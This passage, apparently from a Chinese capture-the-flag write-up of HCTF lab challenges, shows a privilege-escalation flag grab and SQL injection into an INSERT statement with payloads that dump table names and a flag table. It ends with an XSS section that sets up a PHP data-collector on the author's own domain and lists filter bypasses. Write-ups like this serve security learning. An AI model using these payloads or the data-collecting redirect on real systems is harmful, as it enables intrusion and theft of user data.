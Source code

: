这题一开始看到水平越权，我去查了一下资料，无果。不过看起来，这第一题也是水平越权的样子……

然后切回这个网站，发现在加载/user.php的时候比上一题多加载了一个/api/getmessage.php，看了一下对这个页面的请求，发现POST了username上去，于是就想到我自己POST一个`user=LoRexxar2`，然后就拿到了flag`hctf{rugu0_y0u_p1ngx1ngyu3qu4n_du0l1h4i}`。

我并没有看到ajax。

### LoRexxar的渗透之战之四

看上去好像没什么问题了啊，可惜，你们对力量一无所知o(*^▽^*)┛

http://115.28.78.16:13333/d23fd789868fa2c8b3942a811f63adb7/0x004/

#### Hint

1、你可能对力量一无所知

2、sql注入

#### 解题报告

似乎这emoji毁了？

试着向我自己发送一个`'`，结果在/api/addmessage.php请求里发现POST的变成了`\'`，也就是说被addslash了。

恩？怎么会在前端就变成`\'`？看了一下网页源码，发现js里就有`addslashes`和`stripslashes`，于是我感觉后台多半是没有过滤的，把Cookie复制过来用curl试了几发就证实了。

先试了试（伪）万能公式，`'AND 1=1#`，GG，懵逼。用`'AND'1'='1`，结果插入了0，懵逼。又试了试`'OR'1'='1`，结果插入了1，哦，原来就是插入`'INJECTION'`的计算结果啊。虽然当时还没搞懂为什么用了注释符就会GG，我一直默认是`SELECT`语句，处于误区中，不过故事还是要继续。

然后我就想直接获取表名列名，然后使得计算结果是这个就好了，但是尴尬的是MySQL找不到中缀表达式能串联字符串，除了CONCAT找不到其它有效的办法了，搞了半天算是宣告失败了。

于是我思考如果是我自己来实现这个SQL语句，应该是如何来做的。当我意识到这句是`INSERT`实现的时候，感觉就豁然开朗了，我估计是`INSERT INTO table VALUES ('$to', '$message')`这种类型的语句，为了验证，首先我用了一开始的`'AND1=1)#`，提示我插入成功，看来估计地没错，然后为了确认`VALUES`后面括号里的格式，我又试了试POST一条`to=username','message')#&message=nonsense`，提示我插入成功，并且登上去看了一下，插入的就是message。猜测完全正确，掌握了格式就可以构造语句了。

剩下的就是惯例，首先爆表名`to=username',(SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))#`登录回去看看爆出表名是flag5，然后懒得爆列名了，直接POST`to=username',(SELECT*FROM flag5 LIMIT 0,1))#`最后登录上去就拿到了flag`hctf{4q1_r0ngy1_y0u_sql1}`。

刚刚注意到……“你可能对力量一无所知”的意思是我不需要像前几题一样知道LoRexxar什么的吗？

### LoRexxar的渗透之战之五

看上去好像没什么问题了，LoRexxar也会常常上线和大家聊天的

http://115.28.78.16:13333/d23fd789868fa2c8b3942a811f63adb7/0x005/

#### Hint

1、你能从LoRexxar4获得真正的力量吗

2、xss，你可能需要注意CSP

#### 解题报告

作为直觉，上线聊天应该就是XSS了。

其实一开始没有管CSP，我用最暴力的方法，直接让它location跳转到我自己掌控的一个页面就好了，比如这次我在xris.co下随便写了个php，`<?php$fp=fopen('../msg.txt','a');if(isset($_GET['m']))fwrite($fp,$_GET['m']);?>`，然后按照一开始做第一题的经验，过滤了`script`和`on`各一次，这个复写解决，过滤了`'`和`"`，这个用<code>`</code>来替代就解决了，过滤了`</scrscriptipt>`只需要用`</scrscriptipt/>`即可。
